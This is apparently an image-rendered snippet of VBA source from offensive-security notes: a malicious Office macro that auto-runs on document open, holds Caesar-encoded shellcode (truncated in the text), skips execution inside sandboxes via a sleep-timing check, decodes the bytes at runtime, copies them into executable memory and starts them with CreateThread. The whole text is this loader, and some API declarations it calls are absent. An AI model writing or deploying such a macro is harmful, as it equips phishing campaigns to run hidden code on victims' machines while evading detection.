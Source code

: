     Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" ( _
        ByVal lDestination As LongPtr, _
        ByRef sSource As Any, _
        ByVal lLength As Long) As LongPtr
    
    Private Declare PtrSafe Sub Sleep Lib "KERNEL32" ( _
        ByVal mili As Long)
    
    Function mymacro()
        Dim buf As Variant
        Dim addr As LongPtr
        Dim counter As Long
        Dim data As Long
        Dim res As Long
        Dim i As Long
        
        ' --- Encrypted shellcode (Caesar +2) ---
        buf = Array(254, 132, 2, 2, 2, 98, 139, 231, 51, 194, 102, _
                    141, 82, 50, 141, 84, 14, 141, 84, 22, 141, 116, _
                    42, 17, 185, 76, 40, 51, 1, 174, 62, 99, ...) 
        ' (truncated for notes, full payload goes here)
    
        ' --- Time-lapse Evasion (Sleep Check) ---
        Dim t1 As Date, t2 As Date, elapsed As Long
        t1 = Now()
        Sleep (2000)             ' Sleep 2 seconds
        t2 = Now()
        elapsed = DateDiff("s", t1, t2)
        If elapsed < 2 Then Exit Function   ' Exit in sandbox
    
        ' --- Runtime Decryption (Caesar -2) ---
        For i = 0 To UBound(buf)
            buf(i) = buf(i) - 2
        Next i
    
        ' --- Allocate Memory & Copy Decrypted Shellcode ---
        addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
        For counter = LBound(buf) To UBound(buf)
            data = buf(counter)
            res = RtlMoveMemory(addr + counter, data, 1)
        Next counter
    
        ' --- Execute Payload ---
        res = CreateThread(0, 0, addr, 0, 0, 0)
    
    End Function
    
    ' --- Auto-run triggers when document opens ---
    Sub Document_Open()
        mymacro
    End Sub
    
    Sub AutoOpen()
        mymacro
    End Sub
    
